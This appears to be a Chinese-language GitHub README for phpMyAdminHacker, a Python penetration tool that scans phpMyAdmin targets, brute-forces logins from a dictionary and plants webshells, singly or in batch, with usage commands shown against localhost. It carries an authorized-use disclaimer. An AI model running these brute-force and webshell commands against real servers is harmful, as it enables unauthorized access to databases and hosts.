





# phpMyAdminHacker-集成多个模块的一体化渗透工具
phpMyAdminHacker是一款以Python异步爬虫开发的phpMyAdmin扫描器，具有存活检测、字典爆破、一键写入webshell等功能，并在程序结束时生成结果文件。

## 1. 免责声明
- 本工具仅限于安全研究与授权测试，如您需要测试本工具的可用性，请自行搭建本地环境。
- 在使用本工具进行测试时，您应确保该行为取得了足够的授权。请勿对非授权目标进行扫描。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，作者将不承担任何法律及连带责任。

除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

## 2. 使用方法

安装依赖：`pip install aiohttp`

`python phpMyAdminHacker.py -h`

```
usage: phpMyAdminHacker.py [-h] [-u URL] [-f FILE] [-d DIC] [-p PASSWORD] [--shell] [--check]

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     单目标扫描
  -f FILE, --file FILE  从文件加载批量目标
  -d DIC, --dict DIC    选择爆破字典
  -p PASSWORD, --password PASSWORD
                        手动输入密码
  --shell               开启日志以部署webshell
  --check               检测目标链接的有效性
```

结果文件说明：
```
url_password.txt        存放成功爆破登录的URL及密码
webshell_success.txt    存放webshell的地址及密码
valid_url.txt           存放HTTP 200状态码的URL
fail_url.txt            存放超时或其他HTTP状态码的URL
```

## 3. 演示
### 3.1 单目标扫描

- 爆破登录

`python phpMyAdminHacker.py -u http://127.0.0.1/phpmyadmin/ -d password.txt`



- 写入webshell

`python phpMyAdminHacker.py -u http://127.0.0.1/phpmyadmin/ -p root --shell`



### 3.2 多目标扫描

- 检测链接

`python phpMyAdminHacker.py -f url.txt --check`



- 爆破登录

`python phpMyAdminHacker.py -f url.txt -d password.txt`



- 批量写入webshell

`url_password.txt`格式：
```
# 网址,密码 例：
http://127.0.0.1/phpmyadmin/,root
http://127.0.0.1/test/phpmyadmin-4.9.0/,root
```

`python phpMyAdminHacker.py -f url_password.txt --shell`


